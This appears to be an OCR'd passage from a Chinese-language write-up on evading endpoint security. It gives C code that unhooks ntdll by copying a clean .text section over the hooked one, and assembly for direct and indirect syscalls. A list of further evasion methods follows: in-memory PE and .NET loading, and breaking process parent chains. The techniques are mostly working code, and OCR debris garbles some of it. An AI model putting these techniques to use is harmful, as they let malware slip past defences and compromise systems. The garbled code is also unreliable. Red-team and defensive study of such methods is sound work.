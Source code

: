      for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {    PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {      DWORD oldProtection = 0;      bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);      memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);      isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);    }  }    CloseHandle(process);  CloseHandle(ntdllFile);  CloseHandle(ntdllMapping);  FreeLibrary(ntdllModule);    return 0;

  * Syscall：Direct syscall、Indirect syscall

    * Direct syscall

示例代码：

      *       *       *       *       *       *       *       *       *         NtAllocateVirtualMemory PROC    mov r10, rcx                                         mov eax, wNtAllocateVirtualMemory                   syscall                                             ret                                             NtAllocateVirtualMemory ENDP                          
        UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];

![]()

  

    * Indirect syscall

示例代码：

    *     *     *     *     *     *     *     *     *     *     *     NtWriteVirtualMemory PROC    mov r10, rcx    mov eax, wNtWriteVirtualMemory    jmp QWORD PTR [sysAddrNtWriteVirtualMemory]NtWriteVirtualMemory ENDP  
      UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");  
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];sysAddrNtAllocateVirtualMemory = pNtAllocateVirtualMemory + 0x12;

![]()

  

  

  

  * PE in Memory：内存加载

    * 利用 Inline-Execute-PE  在内存中加载运行PE文件

    * 利用 BOF.NET 在内存中执行.NET程序集文件

  * 进程断链：断掉父子进程链

    * 利用模拟运行断链

    * 利用WMIC断链

    * 利用Com断链
